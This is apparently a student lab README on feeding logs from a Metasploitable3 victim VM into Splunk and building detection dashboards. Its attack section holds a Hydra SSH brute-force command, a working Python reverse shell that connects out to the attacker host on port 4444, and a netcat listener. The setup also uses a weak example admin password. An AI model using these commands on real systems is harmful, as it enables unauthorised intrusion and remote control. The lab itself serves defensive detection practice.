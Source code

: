 # 🛡️ Phase 2: SIEM - Dashboard Analysis

## 🎯 Objective.

- Integrate logs from the **victim machine** (Metasploitable3) into a **SIEM server** (Splunk running on the attacker/Kali VM).
- Visualize attack logs to identify patterns such as brute-force attempts and reverse shells.
- Compare the behavior and timeline of events before and after compromise.

---

## 🔧 Splunk Server Setup (Kali VM)

### Installation
```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo /opt/splunk/bin/splunk start --accept-license
sudo /opt/splunk/bin/splunk enable boot-start
```

### Access Web Interface
Open in browser:
```
http://192.168.142.129:8000
```
Log in with:
- **Username:** admin
- **Password:** admin123

### Enable TCP 9997 Port (to receive logs)
- Navigate to **Settings > Forwarding and Receiving > Add New (Receive Data)**
- Add TCP port **9997**
- Click **Save**

---

## 🔗 Splunk Forwarder Setup (Metasploitable3 VM)

### Installation
```bash
wget -O splunkforwarder.tgz https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.tgz
tar -xvzf splunkforwarder.tgz
sudo mv splunkforwarder /opt/splunkforwarder
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### Connect to Splunk Server
```bash
sudo /opt/splunkforwarder/bin/splunk enable boot-start
sudo /opt/splunkforwarder/bin/splunk login -auth admin:admin123
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.142.129:9997
```

### Add SSH Log Monitoring
```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
sudo /opt/splunkforwarder/bin/splunk restart
```

---

## ⚔️ Attacks Performed

### 1. SSH Brute-force with Hydra
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
```

### 2. Reverse Shell via Python Script
```python
import socket,subprocess,os
s=socket.socket()
s.connect(("192.168.142.129",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### 3. Netcat Listener on Kali
```bash
nc -lvnp 4444
```

---

## 📊 Visualization in Splunk

### Open Splunk Search:
```
http://192.168.142.129:8000/en-US/app/search/search
```

### Sample Queries:
- Failed SSH logins:
  ```spl
  index=main "Failed password"
  ```
- Successful logins:
  ```spl
  index=main "Accepted password"
  ```
- Reverse shell detection:
  ```spl
  index=main "session opened" OR "session closed"
  ```

### Bar Chart Visualization:
- Use **Visualizations > Bar Chart**
- X-Axis: `_time`, Y-Axis: `count`, Split: `event_type`

---

## 📸 Required Screenshots

- Splunk web UI showing active log forwarding from Metasploitable3
- Search results for:
  - SSH brute-force (Hydra)
  - Reverse shell events
- Visualization bar charts for the above queries
- Terminal on Kali VM showing:
  - Hydra execution
  - Netcat receiving shell
  - Python reverse shell trigger

---

## 🧠 Conclusion

- SIEM integration was completed with Metasploitable3 as victim and Splunk on Kali as server.
- Attacks were successfully simulated and visualized.
- Dashboards clearly showed timeline escalation (Hydra ➔ login ➔ shell access).
- These logs will be compared in **Phase 3** against defense mechanisms.

> Proceed to Phase 3 for defensive implementation and validation.
> 


Attacker:

![Screenshot13](../screenshots/Screenshot13.png)
![Screenshot14](../screenshots/Screenshot14.png)
![Screenshot15](../screenshots/Screenshot15.png)
![Screenshot16](../screenshots/Screenshot16.png)
![Screenshot17](../screenshots/Screenshot17.png)


victim:

![Screenshot17](../screenshots/Screenshot17.png)
![Screenshot18](../screenshots/Screenshot18.png)
![Screenshot19](../screenshots/Screenshot19.png)
![Screenshot20](../screenshots/Screenshot20.png)
![Screenshot21](../screenshots/Screenshot21.png)
![Screenshot22](../screenshots/Screenshot22.png)
![Screenshot23](../screenshots/Screenshot23.png)
![Screenshot24](../screenshots/Screenshot24.png)
![Screenshot25](../screenshots/Screenshot25.png)
![Screenshot26](../screenshots/Screenshot26.png)
![Screenshot27](../screenshots/Screenshot27.png)
![Screenshot28](../screenshots/Screenshot28.png)
![Screenshot29](../screenshots/Screenshot29.png)
![Screenshot30](..//screenshots/Screenshot30.png)
![Screenshot31](../screenshots/Screenshot31.png)
![Screenshot32](../screenshots/Screenshot32.png)
![Screenshot33](../screenshots/Screenshot33.png)


